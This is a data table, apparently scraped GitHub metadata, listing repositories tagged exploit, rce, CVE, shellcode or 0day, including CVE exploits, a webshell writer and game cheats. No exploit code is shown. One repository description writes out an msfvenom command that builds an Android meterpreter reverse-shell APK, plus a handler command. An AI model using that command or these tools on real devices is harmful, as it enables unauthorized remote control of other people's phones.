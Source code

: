 | roninAPT/awesome-exploit-development | None | https://github.com/roninAPT/awesome-exploit-development | ['exploit'] | 1 | 2021-01-19 00:50:13+00:00 | 5 | 0 | | 0 |
| darkmind9056/WebSploit | nan | https://github.com/darkmind9056/WebSploit | ['sploit'] | 1 | 2021-01-19 01:58:35+00:00 | 1316 | 0 | Python | 0 |
| 1209973/exploit-classifier | This a NLP model to classify the exploit into categories based on the description of the exploit | https://github.com/1209973/exploit-classifier | ['exploit'] | 1 | 2021-01-19 04:56:27+00:00 | 131 | 0 | Jupyter Notebook | 0 |
| go-bi/CVE-2019-0708-EXP-Windows | None | https://github.com/go-bi/CVE-2019-0708-EXP-Windows | ['cve-2'] | 1 | 2021-01-19 05:23:10+00:00 | 411268 | 0 | C | 0 |
| Xanos20/Binary_Analysis_Exploitation_CTF_Challenges | None | https://github.com/Xanos20/Binary_Analysis_Exploitation_CTF_Challenges | ['exploit'] | 1 | 2021-01-19 07:35:47+00:00 | 24 | 0 | Python | 0 |
| hex0wn/laravel-debug-rce | laravel debug rce caused by Ignition | https://github.com/hex0wn/laravel-debug-rce | ['rce'] | 1 | 2021-01-15 06:39:22+00:00 | 29 | 1 | Python | 1 |
| Eremiel/CVE-2019-5420 | None | https://github.com/Eremiel/CVE-2019-5420 | ['cve-2'] | 1 | 2021-01-20 15:14:10+00:00 | 3 | 0 | Python | 0 |
| nyc-tophile/- | اختراق جميع هواتف اندرويد داخل الشبكة بستخدام #كالي لينوكس امر انشاء بايلود. msfvenom -p android/meterpreter/reverse_tcp lhost=192.......... lport=4444 -o /home/kali/Desktop/app.apk =====================================اوامر فتح الجلسة. use multi/handler | https://github.com/nyc-tophile/- | ['exploit'] | 1 | 2021-01-11 12:52:20+00:00 | 0 | 0 | | 0 |
| catuhub/dockerized-vms | Run virtual machines in docker using qemu and practice exploitation techniques overcoming containers limitations. | https://github.com/catuhub/dockerized-vms | ['exploit'] | 1 | 2021-01-14 18:18:25+00:00 | 11 | 5 | Shell | 2 |
| hoanx4/apche_unomi_rce | Apache Unomi CVE-2020-13942: RCE Vulnerabilities | https://github.com/hoanx4/apche_unomi_rce | ['rce'] | 1 | 2021-01-12 02:29:27+00:00 | 10 | 0 | Perl | 0 |
| AspxctDev/PlagueRobloxExploit- | None | https://github.com/AspxctDev/PlagueRobloxExploit- | ['exploit'] | 1 | 2021-01-11 17:30:58+00:00 | 0 | 0 | | 0 |
| AnasTaoutaou/CVE-2019-5420 | None | https://github.com/AnasTaoutaou/CVE-2019-5420 | ['cve-2'] | 1 | 2021-01-11 19:24:31+00:00 | 1 | 0 | Python | 0 |
| CoochieSlayer6372/SimpleSpyFixed | a fixed version of this dudes shitty ass remote spy designed to work for sentinel, protosmasher & some free exploits | https://github.com/CoochieSlayer6372/SimpleSpyFixed | ['exploit'] | 1 | 2021-01-11 21:38:37+00:00 | 50 | 0 | Lua | 0 |
| zer0exp/exploits | None | https://github.com/zer0exp/exploits | ['exploit'] | 1 | 2021-01-11 22:23:17+00:00 | 4 | 0 | | 0 |
| NathanZaldivar/Samba-username-exploit | a simple demonstration of the samba username map exploit | https://github.com/NathanZaldivar/Samba-username-exploit | ['exploit'] | 1 | 2021-01-12 07:39:40+00:00 | 3 | 1 | Python | 0 |
| Krish986/RCEO-VentureProgram | Sexy WebApp | https://github.com/Krish986/RCEO-VentureProgram | ['rce'] | 1 | 2021-01-12 04:11:17+00:00 | 4 | 0 | CSS | 0 |
| ahacker15/CVE-2017-16894 | CVE-2017-16894 | https://github.com/ahacker15/CVE-2017-16894 | ['cve-2'] | 1 | 2021-01-12 05:15:32+00:00 | 2 | 1 | Python | 0 |
| AspxctDev/Aspect | For my own roblox exploit files. | https://github.com/AspxctDev/Aspect | ['exploit'] | 1 | 2021-01-12 06:48:32+00:00 | 1 | 0 | | 0 |
| May-it-be-your-city/java-exploit | java开发 | https://github.com/May-it-be-your-city/java-exploit | ['exploit'] | 1 | 2021-01-12 14:13:33+00:00 | 7 | 0 | HTML | 0 |
| gardenWhy/CVE-2017-12615-EXP | CVE-2017-12615 任意文件写入exp，写入webshell | https://github.com/gardenWhy/CVE-2017-12615-EXP | ['cve-2'] | 1 | 2021-01-13 03:23:30+00:00 | 47 | 0 | Go | 0 |
| k3vin-3/ShellCodeBypass | nan | https://github.com/k3vin-3/ShellCodeBypass | ['shellcode'] | 1 | 2021-01-12 09:32:41+00:00 | 26 | 0 | C++ | 0 |
| AspxctDev/Unfraid-Exploit | None | https://github.com/AspxctDev/Unfraid-Exploit | ['exploit'] | 1 | 2021-01-12 17:50:18+00:00 | 3 | 0 | | 0 |
| ElecSoundRBX/BFS_Exploit | None | https://github.com/ElecSoundRBX/BFS_Exploit | ['exploit'] | 1 | 2021-01-12 17:53:49+00:00 | 0 | 0 | | 0 |
| psauxx/CVE-2019-9193 | CVE-2019-9193 English Rewrite | https://github.com/psauxx/CVE-2019-9193 | ['cve-2'] | 1 | 2021-01-15 18:24:08+00:00 | 2 | 0 | Python | 0 |
| abhilash-pangutty/dns-rebinder | A simple dns server to exploit server side request forgery using DNS rebinding technique | https://github.com/abhilash-pangutty/dns-rebinder | ['exploit'] | 1 | 2021-01-13 13:16:32+00:00 | 3421 | 0 | Go | 1 |
| codemasterv/AlAzif_Lazy_Clone | A lazy clone of Al's exploit for self host on a pi or what ever small server | https://github.com/codemasterv/AlAzif_Lazy_Clone | ['exploit'] | 1 | 2021-01-12 23:17:36+00:00 | 17825 | 0 | JavaScript | 0 |
| codemasterv/codemasterv.github.io | ps4 702 exploit host | https://github.com/codemasterv/codemasterv.github.io | ['exploit'] | 1 | 2021-01-12 23:00:38+00:00 | 17806 | 0 | | 0 |
| averagetimsweeneyfan/Fortnite-Shoot-Through-Walls-Exploit | Shoot bullets through walls all weapons | https://github.com/averagetimsweeneyfan/Fortnite-Shoot-Through-Walls-Exploit | ['exploit'] | 1 | 2021-01-11 15:01:29+00:00 | 1 | 0 | C++ | 2 |
| apidotmy/Mass-Exploit3r | None | https://github.com/apidotmy/Mass-Exploit3r | ['exploit'] | 1 | 2021-01-24 23:49:23+00:00 | 30 | 0 | Python | 0 |
| AssassinUKG/CVE-2020-8165 | None | https://github.com/AssassinUKG/CVE-2020-8165 | ['cve-2'] | 1 | 2021-01-15 04:44:19+00:00 | 15 | 0 | Python | 0 |
| mafiaguy/exploitdevelopment | None | https://github.com/mafiaguy/exploitdevelopment | ['exploit'] | 1 | 2021-01-11 07:19:31+00:00 | 1 | 0 | C | 0 |
| x1234xx/0DaylnkExploit-Builder | nan | https://github.com/x1234xx/0DaylnkExploit-Builder | ['0day', 'exploit'] | 2 | 2021-01-10 00:08:32+00:00 | 3630 | 1 | nan | 5 |